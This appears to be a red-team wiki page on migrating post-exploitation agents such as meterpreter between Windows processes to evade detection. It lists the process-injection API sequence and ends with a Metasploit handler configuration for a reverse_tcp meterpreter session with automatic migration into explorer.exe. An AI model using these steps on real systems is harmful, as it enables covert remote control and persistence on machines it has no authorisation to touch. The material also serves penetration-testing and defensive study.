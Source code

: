 # ⭕ Process Migration

## <mark style="color:red;">Process Migration</mark>

Sometimes, active agent process (meterpreter, empire agent, covenant grunt, etc) has to be migrated to:

* Hiding the process to gain persistence and avoid detection.
* Change the process architecture to execute some payloads with the corrent architecture. For example, if there is a 64-bits system and our meterpreter process is 86-bits, some architecture-related problems could happen if we try to execute some exploits against the session gained.
* Migrate to a more stable process.

## <mark style="color:red;">Meterpreter Migration</mark>

Migration process is as follow:

1. A metasploit handler is configured to retrieve a meterpreter sessions.
2. Processes are listed to select the desired one to migrate (`ps` command).
3. &#x20;Migrate to the desired process (`migrate <PID>`)

### <mark style="color:orange;">Migration process detailed</mark>

* **1** Get the PID the user wants to migrate into. This is the target process.
* **2** Check the architecture of the target process whether it is 32 bit or 64 bit. It is important for memory alignment.
* **3** Check if the meterpreter process has the SeDebugPrivilege. This is used to get a handle to the target process.
* **4** Get the actual payload from the handler that is going to be injected into the target process. Calculate its length as well.
* **5** Call the OpenProcess() API to gain access to the virtual memory of the target process.
* **6** Call the VirtualAllocEx() API to allocate an RWX (Read, Write, Execute) memory in the target process
* **7** Call the WriteProcessMemory() API to write the payload in the target memory virtual memory space.
* **8** Call the CreateRemoteThread() API to execute the newly created memory stub having the injected payload in a new thread.
* **9** Shutdown the previous thread having the initial meterpreter running in the old process.

### <mark style="color:orange;">Prepend Migrate</mark>

Tell metasploit to migrate to a more stable/opsec process right after getting a meterpreter shell:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.2
set lport 1234
set prependmigrateprocess explorer.exe
set prependmigrate true
exploit
ps | grep shell.exe
kill 8064
sysinfo
```
